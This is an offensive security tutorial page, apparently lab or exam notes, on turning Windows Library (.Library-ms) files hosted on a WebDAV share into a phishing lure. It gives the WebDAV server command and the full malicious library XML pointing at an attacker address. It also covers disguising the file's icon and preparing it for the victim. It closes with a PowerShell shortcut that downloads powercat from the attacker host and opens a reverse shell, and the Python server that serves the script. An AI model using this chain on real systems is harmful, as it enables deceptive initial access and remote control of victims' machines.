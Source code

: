 ```yaml
---
description: >-
  Windows Library Files are virtual containers used to connect users with data
  located in remote locations like web services or SMB shares.
---
```


# Windows Library Files

[Windows Library Files](https://learn.microsoft.com/en-us/windows/client-management/client-tools/windows-libraries) have a _**.Library-ms**_ extensions and are executed by double clicking on them.





##

## WebDAV

In order to share our malicious Windows Library file to the victim we will create a WebDAV share to host the staged payload.

{% embed url="https://learn.microsoft.com/en-us/iis/configuration/system.webserver/webdav/" %}

### Start WebDAV Server

```bash
──(env)─(kali㉿kali)-[~/web]
└─$ /home/kali/env/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/web/
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1).png" alt=""><figcaption></figcaption></figure>





## Create Windows Library File

We will create a new file on our Windows host and name it "**dog.Library-ms**".

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.5</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

Right now the icon is a little suspicious, let's change it to something else, like a photo.



## Customizing Library File



### Change Icon

```
<iconReference>imageres.dll, -1003</iconReference>
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Testing & Fixing Serialization&#x20;

We can test to see if it's working by double clicking our "dog" icon on the deskop.&#x20;

<figure><img src="../../.gitbook/assets/image (11) (1).png" alt=""><figcaption><p>As we see, our malicious Windows Library works! Listing or WebDAV server!</p></figcaption></figure>



### Re-open Visual Studio Code

We can see if the re-open "dog" that the code has been changed. This happens due to Windows trying to optimize the WebDAV communication with the client. So before we ship it off the the victim we have to make sure that we've fixed it and NOT OPENED it on our end.&#x20;

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

Delete the serialized tag and fix the url tag with:

```
<url>http://192.168.119.2</url>
```





## Create Shortcut

We will create a shortcut on the Desktop. This shortcut will download powercat and open a reverse shell. Add the following by: Right-Click Desktop and select _New_ > _Shortcut._

```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.5:8000/powercat.ps1'); powercat -c 192.168.119.5 -p 4444 -e powershell"
```

### Start Web Server

We will create a python web server to serve the powercat script.

```
kali@kali:~/beyond$ cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .

kali@kali:~/beyond$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

